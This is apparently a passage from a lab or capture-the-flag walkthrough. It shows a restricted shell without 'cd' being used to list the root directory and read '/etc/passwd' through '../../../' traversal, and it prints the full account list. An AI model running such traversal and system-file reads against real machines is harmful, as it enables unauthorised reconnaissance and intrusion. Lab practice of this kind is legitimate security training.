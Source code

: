 We have not "cd" command, however, we can see files rather than those first:
```
$ ls ../../../
bin
boot
cdrom
dev
etc
home
initrd.img
initrd.img.old
lib
lib64
lost+found
media
mnt
opt
proc
root
run
sbin
snap
srv
swap.img
sys
tmp
usr
var
vmlinuz
vmlinuz.old
$ cat ../../../etc/passwd
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/var/run/ircd:/usr/sbin/nologin
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
systemd-network:x:100:102:systemd Network Management,,,:/run/systemd/netif:/usr/sbin/nologin
systemd-resolve:x:101:103:systemd Resolver,,,:/run/systemd/resolve:/usr/sbin/nologin
syslog:x:102:106::/home/syslog:/usr/sbin/nologin
messagebus:x:103:107::/nonexistent:/usr/sbin/nologin
_apt:x:104:65534::/nonexistent:/usr/sbin/nologin
lxd:x:105:65534::/var/lib/lxd/:/bin/false
uuidd:x:106:110::/run/uuidd:/usr/sbin/nologin
dnsmasq:x:107:65534:dnsmasq,,,:/var/lib/misc:/usr/sbin/nologin
landscape:x:108:112::/var/lib/landscape:/usr/sbin/nologin
pollinate:x:109:1::/var/cache/pollinate:/bin/false
sshd:x:110:65534::/run/sshd:/usr/sbin/nologin
jimmy:x:1000:1000:jimmy:/home/jimmy:/bin/bash
mysql:x:111:114:MySQL Server,,,:/nonexistent:/bin/false
joanna:x:1001:1001:,,,:/home/joanna:/bin/bash
```
